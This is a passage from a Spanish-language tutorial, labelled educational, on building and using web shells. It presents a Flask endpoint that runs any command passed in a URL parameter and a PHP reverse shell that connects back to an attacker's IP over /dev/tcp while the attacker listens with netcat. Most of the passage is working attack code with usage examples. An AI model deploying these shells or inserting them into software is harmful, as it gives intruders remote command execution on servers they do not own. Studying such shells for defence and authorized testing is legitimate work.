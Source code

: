 📌 Uso:

```
http://localhost/shell.php?cmd=ls
```

✔️ Te devuelve el listado de archivos.

---

#### ✅ B. WebShell en Python con Flask (educativo)

```python
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/')
def shell():
    cmd = request.args.get('cmd')
    return os.popen(cmd).read()

app.run(host='0.0.0.0', port=8080)
```

📌 Guardas como `shell.py`, ejecutas y pruebas:

```
http://localhost:8080/?cmd=whoami
```

---

#### ✅ C. WebShell más compleja: **PentestMonkey PHP Reverse Shell**

Este es un script que **conecta al atacante en reversa**:

1. Atacante escucha con netcat:

```bash
nc -lvnp 4444
```

2. Víctima ejecuta shell que hace:

```php
$ip = "10.0.0.1"; // IP del atacante
$port = 4444;
exec("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
```

✅ El atacante ahora tiene **una shell en su máquina** desde el servidor.

---

### 🔧 4. Cómo instalar y usar una WebShell (práctica segura)
